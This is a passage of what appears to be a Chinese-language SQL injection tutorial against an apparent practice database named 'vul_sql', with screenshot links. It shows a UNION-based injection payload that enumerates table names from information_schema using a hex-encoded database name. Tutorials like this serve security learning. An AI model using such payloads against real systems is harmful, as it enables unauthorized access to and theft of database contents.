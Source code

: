 ![enter description here](https://raw.githubusercontent.com/MrHatSec/MrHatSec.github.io/assets/MrHat/1614782612440.png)

知道数据名称之后，我们来查询表
`-t%'union select 1,2,group_concat(table_name),4 from information_schema.tables where table_schema=0x76756C5F73716C%23`

这里数据库名称使用工具转成 HEX 编码<br>
![enter description here](https://raw.githubusercontent.com/MrHatSec/MrHatSec.github.io/assets/MrHat/1614783954500.png)
